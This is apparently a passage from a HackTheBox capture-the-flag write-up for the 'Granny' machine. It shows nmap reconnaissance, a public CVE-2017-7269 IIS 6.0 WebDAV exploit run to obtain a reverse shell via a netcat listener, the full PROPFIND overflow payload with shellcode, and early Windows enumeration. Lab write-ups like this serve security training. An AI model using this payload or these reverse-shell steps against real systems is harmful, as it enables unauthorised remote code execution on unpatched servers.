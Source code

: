 # Granny | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.2.63
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-12 10:14 UTC
Nmap scan report for 10.129.2.63
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Sat, 12 Dec 2020 10:21:01 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 S4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   216.32 ms 10.10.14.1
2   216.46 ms 10.129.2.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.95 seconds
```
The machine is running Windows with an IIS 6.0 server.

### 2. Check out the web server
When hitting the web server through port 80, I get an "Under Construction" message, informing the user that the site does not have a default page and may be in the process of being developed. I run a dirbust of the main site directory and get a few empty folders.
  
Following this I investigate the server version and discover it is vulnerable to RCE via a buffer overflow, as detailed at https://github.com/edwardz246003/IIS_exploit.

*Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.*.
Given that nmap has identified PROPFIND as a publically-available method, this vulnerability is most likely exploitable.

### 3. Get a shell
I find a reverse shell exploit online.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny]
└──╼ [★]$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny]
└──╼ [★]$ cd iis6-exploit-2017-CVE-2017-7269/
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ chmod +x iis6\ reverse\ shell
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ mv iis6\ reverse\ shell exploit.py
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ ./exploit.py 
usage:iis6webdav.py targetip targetport reverseip reverseport
```
Run it with my listener.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ ./exploit.py 10.129.61.27 80 10.10.14.110 9999
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
Check nc:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.110] from (UNKNOWN) [10.129.61.27] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

### 4. Enumerate from foothold
Straight away just from the cmd header I can tell this is an older version of Windows.
```shell
c:\windows\system32\inetsrv>systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 6 Minutes, 9 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1998 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 804 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,338 MB
Page File: In Use:         132 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
